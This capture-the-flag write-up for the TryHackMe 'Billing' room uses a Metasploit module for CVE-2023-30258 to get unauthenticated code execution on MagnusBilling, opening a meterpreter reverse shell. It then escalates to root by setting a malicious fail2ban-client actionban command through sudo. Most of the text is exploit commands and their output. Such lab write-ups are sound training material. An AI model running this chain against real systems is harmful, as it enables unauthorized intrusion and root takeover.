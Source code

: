 ```yaml
---
title: "TryHackMe: Billing"
author: cyb3rgh0u1
categories: [TryHackMe]
description: Exploit a well-known CVE to gain initial access, then elevate privileges by leveraging fail2ban.
tags: [web, rce, fail2ban, magnusbilling, metasploit]
media_subpath: /assets/img_dir/Billing_THM/
image: 
  path: billing.webp
  
---
```


## Description

In the [**Billing TryHackMe**](https://tryhackme.com/room/billing) challenge, we'll exploit **CVE-2023-30258** to gain initial access to the **MagnusBilling** platform via unauthenticated remote code execution. Then, escalate privileges by abusing a misconfigured **fail2ban service** to achieve root access.


[![Billing](billing_1.png)](https://tryhackme.com/room/billing){: .center }


## Enumeration

Start with an nmap scan to identify open ports and services:

```shell
❯ nmap 10.10.254.59 -sC -sV

Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-20 13:59 UTC
Nmap scan report for 10.10.254.59
Host is up (0.37s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 79:ba:5d:23:35:b2:f0:25:d7:53:5e:c5:b9:af:c0:cc (RSA)
|   256 4e:c3:34:af:00:b7:35:bc:9f:f5:b0:d2:aa:35:ae:34 (ECDSA)
|_  256 26:aa:17:e0:c8:2a:c9:d9:98:17:e4:8f:87:73:78:4d (ED25519)
80/tcp   open  http    Apache httpd 2.4.56 ((Debian))
|_http-server-header: Apache/2.4.56 (Debian)
| http-title:             MagnusBilling        
|_Requested resource was http://10.10.254.59/mbilling/
| http-robots.txt: 1 disallowed entry 
|_/mbilling/
3306/tcp open  mysql   MariaDB 10.3.23 or earlier (unauthorized)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Nmap done: 1 IP address (1 host up) scanned in 42.36 seconds
```

Open Ports Identified:

    22/tcp: SSH (OpenSSH 8.4p1)
    80/tcp: HTTP (Apache 2.4.56)
    3306/tcp: MySQL (MariaDB 10.3.23 or earlier)

Let's start by focusing on HTTP website, since the other three ports don’t seem to offer anything noteworthy at the moment. If you look closely to the scanning output, there’s an application called MagnusBilling running. A quick Google search of that application reveals a known vulnerability, [CVE-2023-30258](https://www.rapid7.com/db/modules/exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258/), and it turns out there’s a Metasploit exploit available for it.


[![Google Search](billing_2.png)](https://tryhackme.com/room/billing){: .center }


## Exploitation

Launch Metasploit and configure the exploit:

```shell
msf6 > search magnusbilling_unauth_rce_cve_2023_30258

Matching Modules
================
   #  Name                                                        Disclosure Date  Rank       Check  Description
   -  ----                                                        ---------------  ----       -----  -----------
   0  exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258  2023-06-26       excellent  Yes    MagnusBilling application unauthenticated Remote Command Execution.

msf6 > use 0
[*] Using configured payload php/meterpreter/reverse_tcp

msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > set RHOSTS 10.10.254.59
RHOSTS => 10.10.254.59

msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > set LHOST 10.13.82.190
LHOST => 10.13.82.190

msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > exploit

[*] Started reverse TCP handler on 10.13.82.190:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 10.10.254.59:80 can be exploited.
[*] Performing command injection test issuing a sleep command of 5 seconds.
[*] Elapsed time: 5.83 seconds.
[+] The target is vulnerable. Successfully tested command injection.
[*] Executing PHP for php/meterpreter/reverse_tcp
[*] Sending stage (40004 bytes) to 10.10.254.59
[+] Deleted CCfDLivv.php
[*] Meterpreter session 1 opened (10.13.82.190:4444 -> 10.10.254.59:42936) at 2025-03-20 19:26:50 +0000
```

Drop into a shell and upgrade it to a full TTY:


```shell
meterpreter > shell
Process 1545 created.
Channel 0 created.

python3 -c 'import pty; pty.spawn("/bin/bash")'
asterisk@Billing:/var/www/html/mbilling/lib/icepay$ 
```
>Note: The Python PTY module [docs](https://docs.python.org/3/library/pty.html) upgrades the shell to a fully interactive TTY. Learn more about TTYs [here](https://0xffsec.com/handbook/shells/full-tty/).

Now, locate the user.txt flag:

```shell
asterisk@Billing:/var/www/html/mbilling/lib/icepay$ cd /home
asterisk@Billing:/home$ ls
magnus
asterisk@Billing:/home$ cd magnus
asterisk@Billing:/home/magnus$ ls
Desktop  Documents  Downloads  Music  Pictures  Public  Templates  user.txt  Videos
asterisk@Billing:/home/magnus$ cat user.txt
THM{USER_FLAG_HERE}
````

## Privilege Escalation

Check for sudo privileges:

```shell
asterisk@Billing:/home/magnus$ sudo -l
Matching Defaults entries for asterisk on Billing:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
Runas and Command-specific defaults for asterisk:
    Defaults!/usr/bin/fail2ban-client !requiretty
User asterisk may run the following commands on Billing:
    (ALL) NOPASSWD: /usr/bin/fail2ban-client
```

The user asterisk can run `/usr/bin/fail2ban-client` as root without a password. Verify that fail2ban is running:

```shell
asterisk@Billing:/home/magnus$ systemctl status fail2ban
● fail2ban.service - Fail2Ban Service
     Loaded: loaded (/lib/systemd/system/fail2ban.service; enabled; vendor preset: enabled)
     Active: active (running) since Thu 2025-03-20 10:20:01 HDT; 36min ago
       Docs: man:fail2ban(1)
    Process: 526 ExecStartPre=/bin/mkdir -p /run/fail2ban (code=exited, status=0/SUCCESS)
   Main PID: 542 (fail2ban-server)
      Tasks: 19 (limit: 2268)
     Memory: 27.4M
        CPU: 6.366s
     CGroup: /system.slice/fail2ban.service
             └─542 /usr/bin/python3 /usr/bin/fail2ban-server -xf start
```

`fail2ban-client` allows us to manipulate jail actions. We can abuse the actionban parameter to execute commands as root. Set a malicious actionban command to copy root.txt to a readable location:

```shell
asterisk@Billing:/home/magnus$ sudo /usr/bin/fail2ban-client set sshd action iptables-multiport actionban "/bin/bash -c 'cat /root/root.txt > /tmp/root.txt && chmod 777 /tmp/root.txt'"
```

Trigger the action by banning an IP (e.g., localhost):


```shell
asterisk@Billing:/home/magnus$ sudo /usr/bin/fail2ban-client set sshd banip 127.0.0.1
1
```

>Note: If the file doesn’t appear, ensure fail2ban is running (sudo /usr/bin/fail2ban-client restart) and retry the above 2 steps again.

Read the flag:

```shell
asterisk@Billing:/home/magnus$ cat /tmp/root.txt
THM{ROOT_FLAG_HERE}
```

## Conclusion

By exploiting CVE-2023-30258, we gained initial access as the asterisk user via Metasploit. Then, leveraging a misconfigured fail2ban service with sudo privileges, we escalated to root and captured both flags. This challenge highlights the dangers of unpatched software and overly permissive configurations.

